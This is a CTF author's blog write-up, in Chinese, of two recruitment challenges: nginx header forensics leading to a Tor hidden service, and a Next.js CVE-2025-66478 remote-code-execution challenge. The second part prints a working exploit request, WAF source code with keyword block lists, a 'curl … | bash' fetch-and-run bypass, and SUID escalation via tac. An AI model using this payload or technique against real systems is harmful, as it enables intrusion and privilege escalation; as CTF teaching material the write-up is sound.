




本周因为实验室新生选拔，作为出题人出了两道题目，一道misc 一道 web

(~~虽然都没被选上使用~~~~😭~~~~)~~

以下是它们的出题思路和write up

## 1.**THE CODEX OF SHADOWS: WHISPERS FROM THE TORABYSS (Misc)**
_HTTP header forensics → Tor hidden service → Intercept the redirect_

题目简介(Description)

**Hearken, brave scribe of the nether-web!**  
An ancient relic of unspeakable power—the sacred Flag—hath been sequestered within the darkest recesses of the Shadow Sanctum. The parchment before thee is but a mirage, a veil woven by the Elder Coders to deceive mortal eyes. True knowledge speaketh only in whispers, **unseen by those who peer merely at the surface**.

Arm thyself with the **All-Seeing Eye of the Packet Scryer**, and attend to the **Headers of Hermes**—for there, etched in invisible ink, lieth the gateway to the abyss. Venture into the **■■■■■■ darkness**, where the lost tome awaits its worthy seeker. But take heed: many have gazed into the void, and the void hath claimed them all.

> _"The truth hides not in the scroll, but in the spaces between."_  
—— _The Mad Scribe, circa 1666_
>

目前题目仍然开放于[https://veil.mio.blue/](https://veil.mio.blue/)

一道misc题目，描述总结就是要查看原始http请求头

nginx配置文件源码:

```nginx
# ─────────────── 强制HTTP→HTTPS跳转 ───────────────
server {
  listen 80;
  server_name ;#域名
  return 301 https://$server_name$request_uri;
}

# ─────────────── 通过IP访问的服务 ───────────────
server {
  listen 80 default_server;
  server_name _;  # 匹配任意未明确指定的server_name

  root /var/www/test;
  index index.html;

  location / {
    try_files $uri $uri/ =404;
  }
}

# ─────────────── 表层：羊皮卷轴的谎言 ───────────────
server {
  listen 443 ssl http2;
  server_name ;#域名
  # SSL证书路径（/cer/目录）
  ssl_certificate /cer/fullchain.pem;
  ssl_certificate_key /cer/privkey.pem;

  root /var/www/parchment;
  index index.html;

  # 给"包嗅探者"的隐晦提示
  add_header X-Hermes-Whisper ""; # base64后的tor域名

  add_header X-Shadow-Seal "The abyss beckons...";
  add_header X-Scribe-Warning "What thy browser shows is naught but dust.";

  location / {
    try_files $uri $uri/ =404;
  }
}

# ─────────────── 暗层：虚空圣所的真容 ───────────────
server {
  listen 127.0.0.1:666;  # 仅本地监听，TOR代理转发
  server_name ;         

  root /var/www/sanctum;
  index index.html;
  port_in_redirect off;
  absolute_redirect off;
  # 隐藏服务指纹
  add_header X-Powered-By "";
  add_header Server "";
  # 根路径：自动跳转 + 在响应头里藏FLAG
  location = / {
    # 这里返回302临时重定向，并在响应头中塞入FLAG
    return 302 /final;
    add_header X-Flag ""; # 这里是最终flag
  }

  location / {
    try_files $uri $uri/ =404;
  }
}
```

拿到请求头中藏着的tor地址后进入tor页面,然后按照提示发现flag已经"在来的路上发送了"

查看url发现不是根目录，一进根目录就被跳转了，

抓根目录/时的302响应包拿到flag。

## 2.**ReactShell Is All U Need. (Web)**
_Next.js RCE (CVE-2025-66478) → WAF bypass with cURL pipe → SUID privilege escalation_

题目简介(Description)

HTTP/1.1 200 OK  
Content-Type: application/json  
Date: Mon, 15 Dec 2025 14:51:41 GMT  
Connection: keep-alive  
Keep-Alive: timeout=5  
Content-Length: 99

{"success":true,"result":"MIO{mio@chyan_kawai1_Daisuki!!}","fnName":"bound bound runInThisContext"}

:::note[hint1(cost0point)]
Nevertheless, for all the good it may do you… I still hope you’ll take a moment to actually read the article.
:::

:::note[ hint2(cost0point)]
hint is in hostname/hint.txt
:::

源码已在GitHub上:

::github{repo="mio-qwq/nextjs-cve-2025-66478-ctf"}

hint1是废话,这道题和进入页面的那篇论文无关

按照hint2，查看hint.txt

```markdown
this project powered by ***next.js 16.0.6***

hint is in /hint

the only flag is in /flag

*try to **exploit.***
```

得到信息本项目由next.js 16.0.6驱动

搜索得next.js 16.0.6存在CVE-2025-66478漏洞

这里，可以选择使用github上的扫描工具，也可以使用

网上已经公开的pyload以及其变形

构造pyload

```http
POST / HTTP/1.1
Host: hostname
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 Assetnote/1.0.0
Next-Action: x
X-Nextjs-Request-Id: b5dce965
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx8jO2oVc6SWP3Sad
X-Nextjs-Html-Request-Id: SSTMXm7OJ_g0Ncx6jpQt9
Content-Length: 565

------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="0"

{"then":"$1:__proto__:then","status":"resolved_model","reason":-1,"value":"{\"then\":\"$B1337\"}","_response":{"_prefix":"var res=process.mainModule.require('child_process').execSync('id | base64 -w0').toString().trim();;throw Object.assign(new Error('NEXT_REDIRECT'),{digest: `NEXT_REDIRECT;push;/login?a=${res};307;`});","_chunks":"$Q2","_formData":{"get":"$1:constructor:constructor"}}}
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="1"

"$@0"
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="2"

[]
------WebKitFormBoundaryx8jO2oVc6SWP3Sad--
```

服务器返回

```http
HTTP/1.1 403 FORBIDDEN
Server: Werkzeug/3.1.4 Python/3.11.2
Date: Sun, 21 Dec 2025 11:39:47 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 78

WAF Blocked: .execSync contains forbidden character: d in "id | base64 -w0..."
```

这里是因为我这道题添加了一个waf来反代该next.js的项目

waf源码如下

```python
from flask import Flask, request, Response
import requests
import re
import json
import logging

# 配置日志系统，设置级别为 INFO，方便在控制台查看 WAF 的运行状态和拦截记录
logging.basicConfig(level=logging.INFO)
logger = logging.getLogger(__name__)

app = Flask(__name__)

# ==============================================================================
# WAF 配置区域
# ==============================================================================

# 定义表单字段和 URL 参数中禁止出现的关键词列表
# 这些关键词通常与系统命令执行或敏感文件读取有关
FORM_FORBIDDEN_KEYWORDS = ["cat", "flag", "env", "less", "tac", "hint", "ls"]

# 定义在 .execSync() 调用中禁止出现的字符集合
# 这些字符通常用于构造复杂的 Shell 命令注入，例如管道符、重定向符、命令分隔符等
EXEC_SYNC_FORBIDDEN_CHARS = "$?#%^&*()dfgijkmnopqvyz"

# ==============================================================================
# 核心检测函数
# ==============================================================================

def check_form_fields_for_keywords(form_data):
    """
    第一层过滤：检查表单数据中的普通字段是否包含禁止关键词。
    
    Args:
        form_data (dict): 解析后的表单数据字典。
        
    Returns:
        dict: 包含 'blocked' (bool) 和 'reason' (str) 的结果字典。
    """
    logger.info(f"正在检查表单字段是否包含关键词: {FORM_FORBIDDEN_KEYWORDS}")
    for field_name, field_value in form_data.items():
        if isinstance(field_value, str):  # 仅检查字符串类型的字段值
            for keyword in FORM_FORBIDDEN_KEYWORDS:
                # 不区分大小写进行匹配
                if keyword.lower() in field_value.lower():
                    logger.warning(f"拦截: 表单字段 '{field_name}' 包含禁止关键词: '{keyword}'。值片段: '{field_value[:100]}...'")
                    return {
                        'blocked': True,
                        'reason': f'Form field "{field_name}" contains forbidden keyword: {keyword}'
                    }
    logger.info("表单字段关键词检查通过。")
    return {'blocked': False}

def check_execsync_content(content_to_check):
    """
    第二层过滤：深度检查内容中是否存在 .execSync() 调用，并验证其参数是否安全。
    这是针对 CVE-2025-66478 的核心防御逻辑，防止通过 execSync 执行恶意命令。
    
    Args:
        content_to_check (str): 需要检查的字符串内容（可能是原始请求体、字段值等）。
        
    Returns:
        dict: 包含 'blocked' (bool) 和 'reason' (str) 的结果字典。
    """
    if not isinstance(content_to_check, str):
        logger.debug(f"跳过非字符串内容的 execSync 检查: {type(content_to_check)}")
        return {'blocked': False}

    logger.info(f"正在检查内容中的 .execSync 模式及禁止字符: {EXEC_SYNC_FORBIDDEN_CHARS}")

    # 使用正则表达式查找 .execSync('...') 或 .execSync("...") 的模式
    # 捕获组 1 提取出 execSync 函数调用的参数内容
    pattern = r'\.execSync\s*\(\s*[\'"`]([^\'"`]*)[\'"`]\s*\)'
    matches = re.findall(pattern, content_to_check, re.IGNORECASE)

    for match in matches:
        logger.debug(f"发现 .execSync 模式，参数为: '{match}'")
        # 检查提取出的参数中是否包含禁止字符
        for char in EXEC_SYNC_FORBIDDEN_CHARS:
            if char in match:
                logger.warning(f"拦截: .execSync 参数中包含禁止字符: '{char}'。参数片段: '{match[:50]}...'")
                return {
                    'blocked': True,
                    'reason': f'.execSync contains forbidden character: {char} in "{match[:50]}..."'
                }
    logger.info("内容 .execSync 检查通过。")
    return {'blocked': False}

def check_json_recursive(obj, path=""):
    """
    递归检查 JSON 对象中的所有字符串值。
    如果表单字段中包含 JSON 字符串，会解析后调用此函数进行深度清洗。
    
    Args:
        obj: 当前检查的 JSON 节点（dict, list, str 等）。
        path (str): 当前节点在 JSON 结构中的路径，用于日志记录。
        
    Returns:
        dict: 包含 'blocked' (bool) 和 'reason' (str) 的结果字典。
    """
    if isinstance(obj, dict):
        # 遍历字典的每一个键值对
        for key, value in obj.items():
            current_path = f"{path}.{key}" if path else key
            result = check_json_recursive(value, current_path)
            if result['blocked']:
                return result
    elif isinstance(obj, list):
        # 遍历列表的每一个元素
        for i, item in enumerate(obj):
            current_path = f"{path}[{i}]"
            result = check_json_recursive(item, current_path)
            if result['blocked']:
                return result
    elif isinstance(obj, str):
        # 对 JSON 结构中的叶子节点（字符串）应用双重过滤
        
        # 1. 关键词检查
        for keyword in FORM_FORBIDDEN_KEYWORDS:
             if keyword.lower() in obj.lower():
                logger.warning(f"拦截: JSON 路径 '{path}' 处的字符串包含禁止关键词: '{keyword}'。值片段: '{obj[:100]}...'")
                return {
                    'blocked': True,
                    'reason': f'JSON string at path "{path}" contains forbidden keyword: {keyword}'
                }
        
        # 2. execSync 深度检查
        result = check_execsync_content(obj)
        if result['blocked']:
            logger.warning(f"拦截: {result['reason']} (位于 JSON 路径 '{path}')")
            return result
    
    return {'blocked': False}

# ==============================================================================
# 请求代理与处理逻辑
# ==============================================================================

@app.route('/', defaults={'path': ''}, methods=['GET', 'POST', 'PUT', 'PATCH', 'DELETE'])
@app.route('/<path:path>', methods=['GET', 'POST', 'PUT', 'PATCH', 'DELETE'])
def proxy_request(path):
    """
    代理处理函数：接收所有请求，执行 WAF 检测，通过后转发给后端 Next.js 应用。
    """
    logger.info(f"收到 {request.method} 请求，路径: /{path}")

    # 获取原始请求体数据（文本格式）
    raw_data = request.get_data(as_text=True)
    logger.debug(f"原始请求体片段: {raw_data[:200]}...")

    # --- 全局过滤：检查原始请求体中是否包含恶意的 .execSync ---
    # 这一步可以防御绕过表单解析的攻击尝试
    exec_check_raw = check_execsync_content(raw_data)
    if exec_check_raw['blocked']:
        return f"WAF Blocked: {exec_check_raw['reason']}", 403

    # --- URL 参数检查 ---
    for param_name, param_value in request.args.items():
        # 1. 检查 URL 参数是否包含禁止关键词
        for keyword in FORM_FORBIDDEN_KEYWORDS:
            if keyword.lower() in param_value.lower():
                logger.warning(f"拦截: 查询参数 '{param_name}' 包含禁止关键词: '{keyword}'。值: '{param_value}'")
                return f"WAF Blocked: Query parameter '{param_name}' contains forbidden keyword: {keyword}", 403
        
        # 2. 检查 URL 参数是否包含恶意的 .execSync
        exec_check_param = check_execsync_content(param_value)
        if exec_check_param['blocked']:
            return f"WAF Blocked: {exec_check_param['reason']}", 403

    # --- 表单数据深度检查 ---
    content_type = request.headers.get('Content-Type', '').lower()

    # 仅当 Content-Type 为表单类型时才解析并检查表单字段
    if any(ct in content_type for ct in ['multipart/form-data', 'application/x-www-form-urlencoded']):
        try:
            form_data = request.form.to_dict()
            logger.debug(f"解析后的表单数据: {dict(form_data)}")

            # 1. 检查表单字段中的关键词
            form_keyword_check = check_form_fields_for_keywords(form_data)
            if form_keyword_check['blocked']:
                return f"WAF Blocked: {form_keyword_check['reason']}", 403

            # 2. 遍历表单字段进行更细致的检查
            for field_name, field_value in form_data.items():
                if isinstance(field_value, str):
                    # 特殊处理：如果字段值看起来像 JSON，尝试解析并递归检查
                    if field_value.strip().startswith('{') and field_value.strip().endswith('}'):
                        try:
                            json_obj = json.loads(field_value)
                            json_check = check_json_recursive(json_obj, path=f"form_field.{field_name}")
                            if json_check['blocked']:
                                return f"WAF Blocked: {json_check['reason']}", 403
                        except json.JSONDecodeError:
                            logger.debug(f"字段 '{field_name}' 不是有效的 JSON，跳过 JSON 递归检查。")

                    # 无论是否为 JSON，都对字段值本身进行 .execSync 检查
                    exec_check_field = check_execsync_content(field_value)
                    if exec_check_field['blocked']:
                        return f"WAF Blocked: {exec_check_field['reason']}", 403

        except Exception as e:
            logger.error(f"解析表单数据时出错: {e}")
            return "Bad Request", 400

    # ==============================================================================
    # 请求转发逻辑
    # ==============================================================================
    
    # 构造后端服务的完整 URL
    # 注意：这里使用了 localhost，因为 WAF 和 Next.js 应用运行在同一个容器中
    backend_url = f"http://127.0.0.1:3000/{path}"
    
    # 复制请求头，但排除 Host 头，避免后端服务混淆
    headers = {k: v for k, v in request.headers if k.lower() != 'host'}

    try:
        logger.info(f"正在转发请求至: {backend_url}")
        
        # 根据请求方法调用 requests 库对应的方法进行转发
        if request.method == 'GET':
            response = requests.get(backend_url, headers=headers, params=request.args)
        elif request.method == 'POST':
            response = requests.post(backend_url, data=request.get_data(), headers=headers, params=request.args)
        elif request.method in ['PUT', 'PATCH', 'DELETE']:
            response = requests.request(request.method, backend_url, data=request.get_data(), headers=headers, params=request.args)
        else:
            response = requests.request(request.method, backend_url, data=request.get_data(), headers=headers, params=request.args)

        # --- 响应头处理 (关键修复) ---
        # 过滤掉 Hop-by-hop (逐跳) 头部
        # 如果不过滤，像 Transfer-Encoding: chunked 这样的头部会导致客户端（如浏览器）解析错误，
        # 因为 requests 库已经自动处理了分块传输，解包后的内容不再是分块的。
        excluded_headers = ['content-encoding', 'content-length', 'transfer-encoding', 'connection']
        headers = [
            (k, v) for k, v in response.headers.items()
            if k.lower() not in excluded_headers
        ]

        # 返回后端服务的响应给客户端
        return Response(response.content, status=response.status_code, headers=headers)

    except requests.exceptions.RequestException as e:
        logger.error(f"转发请求至后端时发生错误: {e}")
        return "Target service is not available or connection error occurred", 502

if __name__ == '__main__':
    print("Strict WAF 启动成功！")
    print("访问地址: http://localhost:8080 (如果在容器内测试)")
    print("目标地址: http://127.0.0.1:3000 (容器内部)")
    print("\nWAF 规则:")
    print(f"- 表单字段禁止关键词: {FORM_FORBIDDEN_KEYWORDS}")
    print(f"- execSync 禁止字符: {EXEC_SYNC_FORBIDDEN_CHARS}")
    print("\n过滤逻辑:")
    print("1. 第一层: 检查表单字段值是否包含禁止关键词")
    print("2. 第二层: 检查所有请求内容（URL参数、表单字段、body）中 .execSync('') 的参数是否包含危险字符")
    print("   - 包括对表单字段中嵌套 JSON 的递归检查")
    print("   - 一旦触发任一规则，立即返回 403")
    
    # 监听所有网络接口，端口 80
    app.run(host='0.0.0.0', port=80, debug=False)

```

第一层检查是检查所有传参及表单中不允许出现["cat", "flag", "env", "less", "tac", "hint", "ls"]

第二层针对CVE-2025-66478的攻击负载.execSync()中不允许出现"$?#%^&*()dfgijkmnopqvyz"中的任意字符

可以发现这里自始至终都没有禁止管道符

这里预期解是使用curl -s <URL> | bash(因为这是这次CVE-2025-66478很多服务器真正的被攻击的时候执行的命令)

编辑自己服务器的1.txt



然后在靶机执行 

```python
curl -s hostname/1.txt | bash | base64 -w0
```



得到/hint的内容

这里说了一大堆意思其实就是提权

(不然读取不了/flag)

这道题本来提权这部分打算用以前linux内核的漏洞自己curl脚本下来提权，或者最近的sudo -h的

但是时间有点紧就只用的suid提权

这里是有一个可执行文件的权限设置错误，可以suid提权

修改自己服务器上面的1.txt内容



```bash
ls -la /bin/
```

继续curl -s <URL> | bash | base64 -w0   (这里为什么要base64 -w0是因为这个pyload的重定向的原因，可以有其他不需要base64的pyload)



解码

```plain
drwxr-xr-x 1 root root    4096 Dec 18 10:28 .
drwxr-xr-x 1 root root    4096 Jan 13  2025 ..
-rwxr-xr-x 1 root root   48016 Dec 18 10:28 base64
-rwxr-xr-x 1 root root 1265648 Dec 18 10:28 bash
-rwxr-xr-x 1 root root   44016 Dec 18 10:28 cat
-rwxr-xr-x 1 root root  280800 Dec 18 10:28 curl
-rwxr-xr-x 1 root root   48536 Dec 18 10:28 env
-rwxr-xr-x 1 root root  151344 Dec 18 10:28 ls
-rwxr-xr-x 1 root root 6831736 Dec 18 10:28 python3
-rwxr-xr-x 1 root root  125640 Dec 18 10:28 sh
-rwxr-xr-x 1 root root   43888 Dec 18 10:28 sleep
-rwsr-xr-x 1 root root  113712 Dec 18 10:28 tac
```

(同时这里还是受限环境，故意让很多命令都不能用的)

发现tac命令具有SUID位,属主是root,意味着执行时会以root权限运行

tac也可以读取文件

所以自己服务器上的1.txt的内容修改为tac /flag就行了

curl -s <URL>/1.txt | bash | base64 -w0

(这道题也会有很多其他的解，比如python3实际上也是放出来了的，然后waf其实不严，可以构造其他的pyload，不过最后都要用到tac来suid提权)

